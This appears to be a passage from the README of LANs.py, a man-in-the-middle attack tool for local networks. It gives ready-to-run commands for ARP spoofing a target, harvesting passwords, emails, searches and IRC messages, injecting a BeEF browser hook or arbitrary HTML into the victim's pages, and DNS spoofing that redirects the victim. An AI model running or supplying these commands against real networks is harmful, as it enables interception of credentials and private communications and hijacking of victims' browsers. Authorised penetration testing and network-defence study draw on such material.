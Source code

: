 
Supports interception and harvesting of data from the following protocols: HTTP, FTP, IMAP, POP3, IRC. Will print the first 135 characters of URLs visited and ignore URLs ending in .jpg, .jpeg, .gif, .css, .ico, .js, .svg, and .woff. Will also print all protocol username/passwords entered, searches made on any site, emails sent/received, and IRC messages sent/received. [Screenshot](http://i.imgur.com/kQofTYP.png) 

Running `LANs.py` without argument will give you the list of active targets and upon selecting one, it will act as a simple ARP spoofer.

#### Other common usage:
```shell
python LANs.py -u -p -d -ip 192.168.0.10
```

`-d`: open an xterm with driftnet to see all images they view<br />
`-ip`: target this IP address and skip the active targeting at the beginning


#### HTML injection:
```shell
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, [tutorial](http://resources.infosecinstitute.com/beef-part-1/)) into pages the victim visits. This just wraps the argument in `<script>` tags so you can really enter any location of a javascript file. Attempts to insert it after the first </head> tag found in the page's HTML.


```shell
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` tag and failing that, injects prior to the first `</head>` tag. This example will change the page title to 'Owned.'


#### Read from pcap:
```shell
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script.

#### DNS spoofing
```shell
python LANs.py -a -r 80.87.128.67
```

```shell
python LANs.py -dns eff.org
```
Example 1: The `-a` flag will spoof every single DNS request the victim makes and when used in conjunction with `-r`, it will redirect them to `-r`'s argument address. The victim will be redirected to stallman.org (80.87.128.67) no matter what they type in the address bar.  
Example 2: This will spoof the domain eff.org and subdomains of eff.org. When there is no `-r` flag present with the `-a` or `-dns` flags, the script will default to sending the victim to the attacker's IP address. If the victim tries to go to eff.org they will be redirected to the attacker's IP.
